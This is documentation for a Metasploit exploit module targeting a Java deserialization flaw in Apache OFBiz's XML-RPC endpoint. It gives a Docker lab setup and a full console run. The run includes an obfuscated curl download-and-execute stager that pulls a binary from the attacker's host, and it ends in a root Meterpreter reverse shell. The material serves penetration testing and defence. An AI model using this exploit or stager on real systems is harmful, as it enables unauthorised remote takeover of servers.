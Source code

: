## Vulnerable Application

### Description

This module exploits a Java deserialization vulnerability in Apache
OFBiz's unauthenticated XML-RPC endpoint `/webtools/control/xmlrpc` for
versions prior to 17.12.04.

### Setup

You can use <https://hub.docker.com/r/opensourceknight/ofbiz>.

1. Initialize the database with demo data (`INIT_DB=2`) and bind to ports 8080 and 8443
    * `docker run -p 8080:8080 -p 8443:8443  --rm -e INIT_DB=2 opensourceknight/ofbiz:15.12`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Scenarios

### Apache OFBiz from [Docker](#setup).

```
msf6 > use exploit/linux/http/apache_ofbiz_deserialiation
[*] Using configured payload linux/x64/meterpreter_reverse_https
msf6 exploit(linux/http/apache_ofbiz_deserialiation) > options

Module options (exploit/linux/http/apache_ofbiz_deserialiation):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8443             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/apache_ofbiz_deserialiation) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_ofbiz_deserialiation) > set lhost 192.168.1.7
lhost => 192.168.1.7
msf6 exploit(linux/http/apache_ofbiz_deserialiation) > set srvport 8888
srvport => 8888
msf6 exploit(linux/http/apache_ofbiz_deserialiation) > run

[*] Started HTTPS reverse handler on https://192.168.1.7:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target can deserialize arbitrary data.
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_https
[*] Using URL: http://0.0.0.0:8888/AGB4cD
[*] Local IP: http://10.3.227.250:8888/AGB4cD
[*] Generated command stager: ["curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv"]
[*] Executing command: sh -c curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv
[*] Client 192.168.1.7 (curl/7.38.0) requested /AGB4cD
[*] Sending payload to 192.168.1.7 (curl/7.38.0)
[+] Successfully executed command: sh -c curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv
[*] https://192.168.1.7:8443 handling request from 192.168.1.7; (UUID: btpun2w7) Redirecting stageless connection from /1fY1FTBqS3Z81nrUI-E3VQ3E-Kqn5Kx4lP2cAzF4bmUgveaMUNylCEh1ohulKhz1fERPwYd8u4DAauCLZ8UDm5JaB7P with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.1.7:8443 handling request from 192.168.1.7; (UUID: btpun2w7) Attaching orphaned/stageless session...
[*] Command Stager progress - 104.14% done (151/145 bytes)
[*] Meterpreter session 1 opened (192.168.1.7:8443 -> 192.168.1.7:61375) at 2020-08-14 21:42:11 -0500
[*] Server stopped.

meterpreter > getuid
Server username: root @ 09d1564c6b2c (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 8.4 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
